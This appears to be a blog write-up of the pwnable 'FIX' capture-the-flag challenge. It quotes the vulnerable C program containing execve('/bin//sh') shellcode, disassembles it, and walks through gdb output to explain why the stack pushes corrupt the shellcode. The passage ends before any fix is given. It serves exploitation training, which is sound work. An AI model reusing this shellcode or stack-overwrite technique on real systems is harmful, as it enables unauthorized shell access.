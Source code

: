 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


Below is the source code of vulnerable binary file.  

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}

```

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.  
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:  

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valud shellcoded.  
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".  
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:  

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!  
You need to analyze why this is happening..  
I started analyzing using gdb.  
Let's disam shellcode function.  

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

> (gdb) x/10i *shellcode  

> 0x80484e4 <shellcode>: push ebp  
  
> 0x80484e5 <shellcode+1>: mov ebp,esp  

> 0x80484e7 <shellcode+3>: sub esp,0x38  

> => 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024  

> 0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]  

> 0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax  

> 0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>  

> 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  

> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]  

> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  


> (gdb) x/10wx $ebp  
> 0xfff7bed8: 0xfff7bf08 **(old ebp)** 0x080485c7 **(ret)** 0x0804874e 0xfff7bef8  
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000  
> 0xfff7bef8: 0x000000c9 0x0000000d  

You can see that return address is at 0xfff7bedc. If we could overwrite it, we could execute our shellcode.  
If you further analyze the binary code, you can find some interesting stuff is going on.

> => 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]  
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  
> 0x8048506 <shellcode+34>: mov DWORD PTR [edx],eax  

> (gdb) x/10bx $ebp-0x1c --> **our shellcode is here**  
> 0xfff7bebc: 0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68  
> 0xfff7bec4: 0x68 0x2f  
> (gdb) x/wx $eax+0x20 --> **this refers ret**  
> 0xfff7bedc: 0x080485c7  

this means, our shellcode will overwrite ret address with below instruction.  
awesom!    
> 0x8048506 <shellcode+34>:    mov    DWORD PTR [edx],eax   

After above instruction, ret is changes to shellcode..  
> (gdb) x/10i 0xfff7bebc  
> =>0x804a024 <sc>: xor eax,eax   
> 0x804a026 <sc+2>: push eax    
> 0x804a027 <sc+3>: push 0x68732f2f  
> 0x804a02c <sc+8>: push 0x6e69622f  
> 0x804a031 <sc+13>: mov ebx,esp  
> 0x804a033 <sc+15>: push eax  
> 0x804a034 <sc+16>: push ebx  
> 0x804a035 <sc+17>: mov ecx,esp  
> 0x804a037 <sc+19>: mov al,0xb  
> 0x804a039 <sc+21>: int 0x80  

so far so good. Then why the program crashes?  
The program crashes after executing below instruction.  
> => 0x804a02c <sc+8>: push 0x6e69622f

very interesting..  
The reason program crashes is that eip is increased as the instruction executed, whereas esp decreases as push instruction is executed. So, there is 5 push instructions in the shellcode..  
{% highlight markdown %}
> On the second push instruction, because esp is pointing to eip memory region, it overwrites eip and therefore, program crashes with illegal instrction.  
{% endhighlight %}
